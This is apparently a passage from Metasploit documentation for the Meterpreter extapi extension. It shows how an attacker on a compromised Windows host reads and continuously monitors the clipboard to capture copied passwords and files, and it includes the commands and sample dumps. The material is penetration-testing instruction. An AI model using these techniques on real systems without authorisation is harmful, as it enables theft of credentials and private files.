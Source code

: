 To begin, at the Meterpreter prompt, do:

```
meterpreter > load extapi
Loading extension extapi...success.
meterpreter >
```

One great feature of the extension is clipboard management. The Windows
clipboard is interesting because it can store anything that is
sensitive, such as files, user names, and passwords, but it is not well
protected.

For example, a password manager is a popular tool to store encryped
passwords. It allows the user to create complex passwords without the
need to memorize any of them. All the user needs to do is open the
password manager, retrieve the password for a particular account by
copying it, and then paste it on a login page.

There is a security problem to the above process. When the user copies
the password, it is stored in the operating system's clipboard. As an
attacker, you can take advantage of this by starting the clipboard
monitor from Meterpreter/extapi, and then collect whatever the user
copies.

To read whatever is currently stored in the target's clipboard, you can
use the `clipboard_get_data` command:

```
meterpreter > clipboard_get_data
Text captured at 2016-03-05 19:13:39.0170
=========================================
hello, world!!
=========================================

meterpreter >
```

The limitation of this command is that since you're only grabbing
whatever is in the clipboard at the time, there is only one item to
collect. However, when you start a monitor, you can collect whatever
goes in there. To start, issue the following command:

```
meterpreter > clipboard_monitor_start
[+] Clipboard monitor started
meterpreter >
```

While it is monitoring, you can ask Meterpreter to dump whatever's been
captured.

```
meterpreter > clipboard_monitor_dump
Text captured at 2016-03-05 19:18:18.0466
=========================================
this is fun.
=========================================

Files captured at 2016-03-05 19:20:07.0525
==========================================
Remote Path : C:\Users\user\Desktop\cat_pic.png
File size   : 37627 bytes
downloading : C:\Users\user\Desktop\cat_pic.png -> ./cat_pic.png
download    : C:\Users\user\Desktop\cat_pic.png -> ./cat_pic.png

==========================================

[+] Clipboard monitor dumped
```

[railgun]: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation